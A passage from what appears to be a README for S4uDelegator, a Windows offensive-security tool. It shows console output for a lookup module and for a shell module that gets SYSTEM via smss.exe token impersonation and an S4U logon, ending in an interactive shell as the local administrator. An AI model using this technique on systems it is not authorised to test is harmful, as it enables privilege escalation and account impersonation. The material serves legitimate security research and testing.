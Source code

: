 If you don't specify domain name with `-d` option, use local computer name as domain name:

```
C:\dev>hostname
CL01

C:\dev>S4uDelegator.exe -m lookup -u admin

[*] Result:
    |-> Account Name : CL01\admin
    |-> SID          : S-1-5-21-2659926013-4203293582-4033841475-500
    |-> Account Type : SidTypeUser
```


### shell Module

This command is to get interactive shell with S4U logon:

```
C:\dev>whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104

C:\dev>S4uDelegator.exe -m shell -u admin

[>] Target account to S4U:
    |-> Account Name        : CL01\admin
    |-> Account Sid         : S-1-5-21-2659926013-4203293582-4033841475-500
    |-> Account Type        : SidTypeUser
    |-> User Principal Name : (NULL)
[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 7140
[+] Impersonation is successful.
[>] Trying to MSV S4U logon.
[+] S4U logon is successful.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.175]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\dev>whoami /user

USER INFORMATION
----------------

User Name  SID
========== =============================================
cl01\admin S-1-5-21-2659926013-4203293582-4033841475-500
```
